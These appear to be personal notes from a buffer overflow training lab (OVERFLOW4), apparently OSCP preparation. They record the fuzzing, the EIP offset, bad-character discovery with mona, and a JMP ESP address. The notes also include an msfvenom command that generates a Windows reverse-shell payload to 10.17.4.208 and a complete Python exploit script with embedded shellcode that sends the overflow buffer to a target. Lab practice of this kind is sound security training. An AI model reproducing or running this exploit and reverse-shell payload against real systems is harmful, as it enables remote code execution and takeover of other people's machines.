 con## fuzzing

![[Pasted image 20210530131417.png]]

## offset 
EIP: 70433570

![[Pasted image 20210530140957.png]]


offset: 2026
![[Pasted image 20210530141035.png]]

![[Pasted image 20210530141142.png]]

## bad chars

`!mona config -set workingfolder c:\mona\%p`

`!mona bytearray -b "\x00"`

ESP: 018BFA30

![[Pasted image 20210530141859.png]]


`!mona compare -f C:\mona\oscp\bytearray.bin -a 018BFA30`

bad chars: `\x00\xa9\xcd\xd4`

![[Pasted image 20210530142030.png]]


## jmp point

`!mona jmp -r esp -cpb "\x00\xa9\xcd\xd4"`

`625011AF`

little endian:
`\xaf\x11\x50\x62`

![[Pasted image 20210530142259.png]]

## exploit 

`msfvenom -p windows/shell_reverse_tcp LHOST=10.17.4.208 LPORT=9001 EXITFUNC=thread -f c -a x86 --platform windows -b "\x00\xa9\xcd\xd4"`

![[Pasted image 20210530142545.png]]

```python
import socket

ip = "10.10.171.241"
port = 1337

prefix = "OVERFLOW4 "
offset = 2026
overflow = "A" * offset
retn = "\xaf\x11\x50\x62"
padding = "\x90" * 16
payload = (
"\xda\xdc\xd9\x74\x24\xf4\x5f\xb8\xfe\x81\xd3\xfa\x33\xc9\xb1"
"\x52\x83\xef\xfc\x31\x47\x13\x03\xb9\x92\x31\x0f\xb9\x7d\x37"
"\xf0\x41\x7e\x58\x78\xa4\x4f\x58\x1e\xad\xe0\x68\x54\xe3\x0c"
"\x02\x38\x17\x86\x66\x95\x18\x2f\xcc\xc3\x17\xb0\x7d\x37\x36"
"\x32\x7c\x64\x98\x0b\x4f\x79\xd9\x4c\xb2\x70\x8b\x05\xb8\x27"
"\x3b\x21\xf4\xfb\xb0\x79\x18\x7c\x25\xc9\x1b\xad\xf8\x41\x42"
"\x6d\xfb\x86\xfe\x24\xe3\xcb\x3b\xfe\x98\x38\xb7\x01\x48\x71"
"\x38\xad\xb5\xbd\xcb\xaf\xf2\x7a\x34\xda\x0a\x79\xc9\xdd\xc9"
"\x03\x15\x6b\xc9\xa4\xde\xcb\x35\x54\x32\x8d\xbe\x5a\xff\xd9"
"\x98\x7e\xfe\x0e\x93\x7b\x8b\xb0\x73\x0a\xcf\x96\x57\x56\x8b"
"\xb7\xce\x32\x7a\xc7\x10\x9d\x23\x6d\x5b\x30\x37\x1c\x06\x5d"
"\xf4\x2d\xb8\x9d\x92\x26\xcb\xaf\x3d\x9d\x43\x9c\xb6\x3b\x94"
"\xe3\xec\xfc\x0a\x1a\x0f\xfd\x03\xd9\x5b\xad\x3b\xc8\xe3\x26"
"\xbb\xf5\x31\xe8\xeb\x59\xea\x49\x5b\x1a\x5a\x22\xb1\x95\x85"
"\x52\xba\x7f\xae\xf9\x41\xe8\xdb\xec\x4d\x38\xb3\x0c\x4d\x9b"
"\x6d\x98\xab\xb1\x7d\xcc\x64\x2e\xe7\x55\xfe\xcf\xe8\x43\x7b"
"\xcf\x63\x60\x7c\x9e\x83\x0d\x6e\x77\x64\x58\xcc\xde\x7b\x76"
"\x78\xbc\xee\x1d\x78\xcb\x12\x8a\x2f\x9c\xe5\xc3\xa5\x30\x5f"
"\x7a\xdb\xc8\x39\x45\x5f\x17\xfa\x48\x5e\xda\x46\x6f\x70\x22"
"\x46\x2b\x24\xfa\x11\xe5\x92\xbc\xcb\x47\x4c\x17\xa7\x01\x18"
"\xee\x8b\x91\x5e\xef\xc1\x67\xbe\x5e\xbc\x31\xc1\x6f\x28\xb6"
"\xba\x8d\xc8\x39\x11\x16\xe8\xdb\xb3\x63\x81\x45\x56\xce\xcc"
"\x75\x8d\x0d\xe9\xf5\x27\xee\x0e\xe5\x42\xeb\x4b\xa1\xbf\x81"
"\xc4\x44\xbf\x36\xe4\x4c"
)

postfix = ""

buffer = prefix + overflow + retn + padding + payload  + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```